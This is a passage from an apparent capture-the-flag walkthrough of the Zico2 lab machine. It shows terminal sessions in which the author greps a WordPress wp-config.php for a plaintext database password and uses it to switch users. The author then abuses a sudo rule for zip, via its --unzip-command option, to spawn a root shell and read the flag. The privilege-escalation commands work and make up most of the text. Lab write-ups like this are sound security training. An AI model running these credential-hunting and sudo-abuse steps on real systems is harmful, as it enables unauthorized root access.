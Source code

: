We go to `zico` home directory and look at wordpress;

```
www-data@zico:/var/www$ cd /home/zico
www-data@zico:/home/zico$ ls
bootstrap.zip                            to_do.txt          zico-history.tar.gz
joomla                                   wordpress
startbootstrap-business-casual-gh-pages  wordpress-4.8.zip

We find a wp-config.php in an abandoned wordpress installation thus hunt for usernames & passwords;

www-data@zico:/home/zico/wordpress$ grep -i 'user\|pass' wp-config.php
/** MySQL database username */
define('DB_USER', 'zico');
/** MySQL database password */
define('DB_PASSWORD', 'sWfCsfJSPV9H3AmQzw8');
 * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
```
Point to note we could also try, `grep -Ri 'user\|pass'`

## Privilege Escalation
Log in as zico with the creds from wp-config.php. These are in plain text so need to crack them;

```
www-data@zico:/home/zico/wordpress$ su - zico
Password:
zico@zico:~$ id
uid=1000(zico) gid=1000(zico) groups=1000(zico)
zico@zico:~$ sudo -l
Matching Defaults entries for zico on this host:
    env_reset, exempt_group=admin,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zico may run the following commands on this host:
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /usr/bin/zip
```
### Getting shell using zip command
As seen above we can execute commands as root with no passwords using `/usr/bin/zip` and `/bin/tar`.

```
zico@zico:~$ sudo zip wordpress-4.8.zip wp.txt -T --unzip-command="sh -c /bin/bash"
updating: wp.txt (deflated 43%)
root@zico:~# id
uid=0(root) gid=0(root) groups=0(root)
root@zico:~# ls

root@zico:/# cd root/
root@zico:/root# ls
flag.txt
root@zico:/root# cat flag.txt
#
#
#
# ROOOOT!
# You did it! Congratz!
#
# Hope you enjoyed!
#
#
#
#
```